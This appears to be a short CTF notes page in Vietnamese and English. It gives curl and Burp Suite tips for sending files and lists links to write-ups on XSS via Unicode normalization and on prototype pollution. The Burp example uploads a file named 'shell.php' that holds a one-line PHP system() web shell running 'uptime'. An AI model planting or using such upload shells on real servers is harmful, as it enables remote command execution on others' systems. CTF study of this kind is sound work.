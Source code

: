 # Tips for Using Tools

## CURL
Send file với curl: `curl https://example.com/ -F 'f=@<path>/a.txt'`

## Burpsuite
Send file:
```s
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 211

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="f"; filename="shell.php"
Content-Type: text/plain

<?php echo system('uptime'); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```




XSS qua Unicode Normalization vulnerability
https://hnd3884.github.io/posts/Chainreaction-DownUnderCTF-2021/

Challs prototype pollution:
https://ctftime.org/writeup/16201
https://ctftime.org/writeup/27883
https://sekai.team/blog/dice-ctf-2022/vm-calc/
https://ctf.zeyu2001.com/2022/tetctf-2022/animals
https://ctftime.org/writeup/35154
https://hackmd.io/@d4rkp0w4r/SnykCon-CTF-2021
https://www.akamai.com/blog/security/northsec-ctf-2021-write-up-impurity-assessment-form
https://cyberlances.wordpress.com/2021/07/15/redpwnctf-web-challenge-writeup-part-2/?fbclid=IwAR3ZLCGBM1GvOiu1vgAt2Eev1r1QynKp12L5o6MO0vIVBlucIrNs-gWQJ_A